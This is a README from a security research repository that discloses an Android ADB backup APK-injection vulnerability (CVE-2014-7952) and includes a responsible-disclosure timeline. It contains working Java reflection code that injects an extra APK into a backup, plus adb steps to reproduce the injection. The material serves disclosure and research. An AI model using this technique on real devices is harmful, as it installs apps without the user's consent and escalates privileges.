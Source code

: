 # ADB-Backup-APK-Injection
Android ADB backup APK injection vulnerabilty discovered by and POC created by Imre Rad, SEARCH-LAB Ltd., Hungary.

What is ADB backup/restore?
---------------------------
The Android Operating System offers a backup/restore mechanism of installed packages through the ADB utility.
By default, full backup of applications including the private files stored in /data is performed, but this behaviour can be customized by implementing a [BackupAgent](http://developer.android.com/reference/android/app/backup/BackupAgent.html) class. This way applications can feed the backup process with custom files and data.
The backup file created is a simple compressed tar archive with some Android specific headers. Optional encryption is also possible.

APK injection vulnerability
---------------------------
The backup manager, which invokes the custom BackupAgent's does not filter the data stream returned by the applications. While a BackupAgent is being executed during the backup process, it is able to inject additional applications (APKs) into the backup archive without the user's consent. Upon restoration of the backup archive, the system installs the injected, additional application (since it is part of the backup archive and the system believes it is authentic).

The Backup Manager can be exploited through simple reflection to inject the arbitrary additional APK:

```
// package name of the application to be injected. This will be one of the arguments of backupToTar() method
String packageName = "com.searchlab.wifitest"; 

Method backupToTar;
Method getData;
try {
	// looking up the internal Classes
	Class<?> fullbackupClass = Class.forName("android.app.backup.FullBackup");
	Class<?> backupDataOutputClass = Class.forName("android.app.backup.BackupDataOutput");
	
	// fetching reference to the backupToTar method and making it accessible for us
	backupToTar = fullbackupClass.getDeclaredMethod("backupToTar", String.class, String.class, String.class, String.class, String.class, backupDataOutputClass);
	backupToTar.setAccessible(true);		
	
	// we also need getData() method
	getData = FullBackupDataOutput.class.getDeclaredMethod("getData");
	getData.setAccessible(true);
	
	// and now let the magic begin!
	Object backupData = getData.invoke(data);
	backupToTar.invoke(null, packageName, null, null, getFilesDir().toString(), getFilesDir()+"/_manifest", backupData);
	backupToTar.invoke(null, packageName, "a", null, getFilesDir().toString(),getFilesDir()+"/com.searchlab.wifitest-1.apk", backupData);
	
	// that's all, folks
	Log.v("MYBACKUP", "backuptotar invoked!");
	
} catch (Exception e) {
	e.printStackTrace();
}
```

Who is affected?
----------------
The vulnerability resides in the backup mechanism of the Android operating system. Anyone using adb for creating restoring backups of their handsets might be affected. One could think that command line applications are used by geeks or programmers only, but not necessarily, there are Windows GUI applications which rely on the same technology behind the scenes when creating backups or restoring them.

Proof of Concept
----------------
In this repository you can find an application along with it's source code which can demonstrate the vulnerabilty.
It was tested on Android 4.4.4 and Android 5.1.1.

Step 1: Install ADB_Backup_Injection.apk (com.searchlab.backupagenttest):

![ADB Backup Injection, custom BackupAgent](https://raw.githubusercontent.com/irsl/ADB-Backup-APK-Injection/master/android-backup-injection-backupagenttest2.png "ADB Backup Injection, custom BackupAgent")

This application *does not require any permissions*.

Step 2: Use the following command to create a backup of this package
```
adb backup -f backup.ab -apk com.searchlab.backupagenttest
```

Step 3 (optional): If you want to examine the backup archive just created, use the [ABE](https://github.com/nelenkov/android-backup-extractor) tool:
```
java -jar d:\tools\abe\android-backup-extractor-20140630-bin\abe.jar unpack backup.ab backup.tar
```
![ADB Backup Injection, the tar file with the injected content](https://raw.githubusercontent.com/irsl/ADB-Backup-APK-Injection/master/android-backup-injection-tar-file.png "ADB Backup Injection, the tar file with the injected content")

In the tar file you will find the injected second application (com.searchlab.wifitest).

Step 4: Use the following command to restore the archive:
```
adb restore backup.ab
```

Since the backup.ap file already contains the injected application, it will be restored (installed) as well.

Step 5: Verify that Wifi Test application was indeed installed.
The application runs with android.permission.CHANGE_WIFI_STATE and android.permission.ACCESS_WIFI_STATE permissions to demonstrate that privilege escalation was also possible.

![ADB Backup Injection, injected application](https://raw.githubusercontent.com/irsl/ADB-Backup-APK-Injection/master/android-backup-injection-wifitest.png "ADB Backup Injection, injected application")

CVE
---
The ID CVE-2014-7952 was assigned to this vulnerability.

Affected Versions
-----------------
As of today (2015-07-08), all Android versions are affected, including Android L.

Timeline
--------
SEARCH-LAB Ltd. responsibly reported this threat to the Android security team. At first, Google did not acknowledge the issue being security relevant. Later they kept requesting more time for further investigation, but the bug was still not addressed. The most important milestones of the issue are listed in the next lines:

2014-07-14: The vulnerability was disclosed to the Android security team

2014-07-28: Google refused to treat the issue as a potential threat, but requested to hold off publishing it

2014-10-13: Asked Google for status update and requested a mug for being patient

2014-10-15: Google answered that it did not get fixed in the L release and kept requesting to hold off publishing it. Got a promise about asking around for a mug

(Several more ping-pong emails without any new info, neither a mug)

2015-06-02: Google promised further info in a few days, but it never arrived
